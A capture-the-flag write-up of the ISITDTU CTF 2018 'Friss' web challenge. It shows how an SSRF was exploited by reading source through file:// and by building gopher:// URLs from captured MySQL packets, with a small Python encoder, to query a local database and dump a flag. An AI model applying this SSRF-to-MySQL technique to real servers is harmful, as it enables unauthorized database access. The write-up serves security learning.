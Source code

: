 ```yaml
---
title: ISITDTU CTF 2018 - Friss Writeup
layout: post
date: '2018-07-29 1:35:00'
description: Writeup of Friss
image: https://i.imgur.com/d2lTn7s.png
tags:
- ctf
- writeup
author: Guilherme "k33r0k" Assmann
---
```

This challenge happened this weekend and I enjoyed a lot it's solving, also got a first blood here :)

![](https://i.imgur.com/xpiQ4x4.png)

![](https://i.imgur.com/BKL98LX.png)

At first, there wasn't a lot to fiddle, we had an input and a button, basically indicating that we had a curl running. The first thing I tried was sending something to google.com and expecting for some value in response:

![](https://i.imgur.com/x44sNn7.png)

![](https://i.imgur.com/6qpAlUX.png)


Seems that we can only send stuff to localhost, so, diving deeper, we can find a small bypass for this. Put that the application isn't blocking wrappers, we can use `file://` here:

```php 
php > var_dump(parse_url('file://localhost/../var/www/html/index.php"'));
array(3) {
  ["scheme"]=>
  string(4) "file"
  ["host"]=>
  string(9) "localhost"
  ["path"]=>
  string(27) "/../var/www/html/index.php""
}
```

![](https://i.imgur.com/knlEmbs.png)

![](https://i.imgur.com/K6IYvF2.png)


Ok, got the index's source code, let's take a look:

```php 
include_once "config.php";
if (isset($_POST['url'])&&!empty($_POST['url']))
{
	$url = $_POST['url'];
	$content_url = getUrlContent($url);
}
else
{
	$content_url = "";
}
if(isset($_GET['debug']))
{
	show_source(__FILE__);
}
```

![](https://i.imgur.com/btOBq77.png)

```php 
<?php
$hosts = "localhost";
$dbusername = "ssrf_user";
$dbpasswd = "";
$dbname = "ssrf";
$dbport = 3306;

$conn = mysqli_connect($hosts,$dbusername,$dbpasswd,$dbname,$dbport);

function initdb($conn)
{
	$dbinit = "create table if not exists flag(secret varchar(100));";
	if(mysqli_query($conn,$dbinit)) return 1;
	else return 0;
}

function safe($url)
{
	$tmpurl = parse_url($url, PHP_URL_HOST);
	if($tmpurl != "localhost" and $tmpurl != "127.0.0.1")
	{
		var_dump($tmpurl);
		die("<h1>Only access to localhost</h1>");
	}
	return $url;
}

function getUrlContent($url){
	$url = safe($url);
	$url = escapeshellarg($url);
	$pl = "curl ".$url;
	echo $pl;
	$content = shell_exec($pl);
	return $content;
}
initdb($conn);
?>
```

It's always interesting when we have users, passwords and such available in the code. Let's keep them as they might be useful later.

Analysing the `initdb()` function we can notice that it's creating a table named `flag` with a secret column in the database, in case it doesn't already exists.

The `safe()` function is receiving a URL a verifying, through `parse_url()`, if the host matches `localhost` or `127.0.0.1`, any other harder check here.

At the `getUrlContent()` function, I confess that I even considered a new way to bypass the `escapeshellarg()` to inject commands, but that would make no sense at all. By reading the function we can notice that it's using `escapeshellarg()` (to do what the name tells us it does) before calling `shell_exec()` and returning it to the user.

Considering the possibilites it was obvious to me that I should insist on the SSRF and maybe find out some available protocol which I could take advantage of to maybe get a shell, so I tried `ftp://`, `ssh://`, `dict://` and the `gopher://`...

![](https://i.imgur.com/tSg37dR.png)

I already have studied so many different ways to get a shell with gopher, using it along redis or fastcgi, but I have never done it with mysql. I found some articles indicating that a some part of myslq's package format, when sent through the TCP stack, would be the one that mysql would understand if we could send it through an URL. So much for abstract talk, let's see how it works in real life. Before that let's create a user, just like in the `ssrf_user` challenge, in our mysql:

```sql 
mysql> CREATE USER 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0,07 sec)

mysql> GRANT USAGE ON *.* TO 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0,01 sec)

mysql> GRANT ALL PRIVILEGES *.* TO 'ssrf_user'@'localhost';
Query OK, 0 rows affected (0,10 sec)
```

Now we can move forward. Let's run wireshark to see how the protocol will behave when we send mysql a connection and login request:

![](https://i.imgur.com/e2pjxmm.png)

I could get a successful login but I noticed that my Mac's mysql was generating a connection packet in a totally different way from the original. It was too big for just a login, so I started a Ubuntu with mysql along with wireshark to check this but what we're supposed to do was to select the last segment's packet shown by wireshark, the one part that makes the login attempt:

![](https://i.imgur.com/d2lTn7s.png)

We can basically split the myslq packet in two parts, the connection and the command execution. Here we have just the connection part:

![](https://i.imgur.com/zMvBS7c.png)

From now on we have to make this turn into an URL and the easiest way to do this is using the `Show and save data as` input and set it to `Raw`:

![](https://i.imgur.com/bV97KbV.png)

Ok, now we have to encode all this in the right format for the URL. It's not hard, just add `%` every two bytes and I found a script that does that for us:

```python
def result(s):
  a = [s[i:i+2] for i in xrange(0, len(s), 2)]
  return "curl gopher://127.0.0.1:3306/_%" + "%".join(a)

if __name__ == "__main__":
  import sys
  s = sys.argv[1]
print result(s)
```

![](https://i.imgur.com/Gie5b2C.png)

![](https://i.imgur.com/mJxrJjh.png)

Looks like it worked but as I mentioned before, a database table is created with the secret flag set. So we'll dump it using gopher. We'll change our login command to 

```bash
mysql -h 127.0.0.1 -u ssrf_user -e "use ssrf; select secret from flag"
```

![](https://i.imgur.com/CTDdkpI.png)

Taking a look at the new packet we can even see the query that will be executed. After redoing the whole process using this new packet, we finally got the flag:

![](https://i.imgur.com/lxvxX7Y.png)

![](https://i.imgur.com/jA991Ma.png)
